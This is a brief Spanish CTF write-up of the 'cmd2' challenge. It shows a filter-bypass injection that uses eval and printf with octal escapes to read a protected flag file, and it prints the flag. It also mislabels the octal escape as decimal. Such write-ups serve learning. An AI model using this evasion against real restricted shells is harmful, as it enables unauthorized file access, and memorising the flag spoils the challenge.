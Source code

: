 # cmd2

![cmd2](https://github.com/user-attachments/assets/07d1a952-967f-4159-ae8b-0946bcdb21d3)

Estoy seguro de que hay metodos mas limpios de resolver esto pero mi solucion fue esta: 

`eval  $(printf "\57usr\57bin\57cat \57home\57cmd2\57fl%s" "ag")`

El subcomando de `printf` se expande a "/usr/bin/cat /home/cmd2/flag". En un principio intente usar `\x2f` como secuencia de escape para `/` pero fue malinterpretado por el programa asi que usé su equivalente en decimal `\57`.

El comando `eval` ejecuta una cadena como comandos de shell dinamicamente.

Ambos `printf` y `eval` son comandos "built-in" o internos de la shell por lo que no dependen del PATH.
```
cmd2@ubuntu:~$ ./cmd2 'eval  $(printf "\57usr\57bin\57cat \57home\57cmd2\57fl%s" "ag")'
eval  $(printf "\57usr\57bin\57cat \57home\57cmd2\57fl%s" "ag")
Shell_variables_can_be_quite_fun_to_play_with!
```

`Shell_variables_can_be_quite_fun_to_play_with!`

**Nota**: El mensaje de la bandera me da a entender que a lo mejor esta no era la solucion esperada.
